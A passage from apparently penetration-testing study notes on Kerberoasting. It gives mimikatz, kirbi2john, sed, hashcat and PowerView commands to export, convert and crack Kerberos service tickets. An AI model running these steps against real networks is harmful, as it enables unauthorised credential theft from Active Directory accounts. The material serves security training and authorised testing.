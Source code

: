 > This will also pull all computer accounts, so it is not optimal.
{: .prompt-alert}

Now we can use **mimikatz**:
```console
mimikatz # base64 /out:true
mimikatz # kerberos::list /export
```

We need to specify `base64 /out:true` or mimikatz will extract the tickets and write them to **.kirbi** files. Now we can take base64 blolb and remove new lines and white spaces:
```console
zero@pio$ echo "<base64 blob>" |  tr -d \\n
```

We  can place the above single line of output into a file and convert it back to a .kirbi file using the base64 utility:
```console
zero@pio$ cat encoded_file | base64 -d > ticket.kirbi
```

Next, we can use this version of the [kirbi2john.py](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) tool to extract the Kerberos ticket from the TGS file:
```console
zero@pio$ python2.7 kirbi2john ticket.kirbi
```

This will create a file called **crack_file**. We must modify the file to be able to use hashcat:
```console
zero@pio$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > tgs_hashcat
```

Now we can crack it with hashcat:
```console
zero@pio$ hashcat -m 13100 tgs_hashcat <WORDLIST>
```

If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run kirbi2john.py against them directly, skipping the base64 decoding step.

### Tool Based Route 

First, use PowerView to extract the TGS tickets:
```console
PS C:\zeropio> Import-Module .\PowerView.ps1
PS C:\zeropio> Get-DomainUser * -spn | select samaccountname
```

Target a specific user:
```console
PS C:\htb> Get-DomainUser -Identity <USER> | Get-DomainSPNTicket -Format Hashcat
```

Export all tickets to CSV:
```console
PS C:\zeropio> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\<USER>_tgs.csv -NoTypeInformation
```
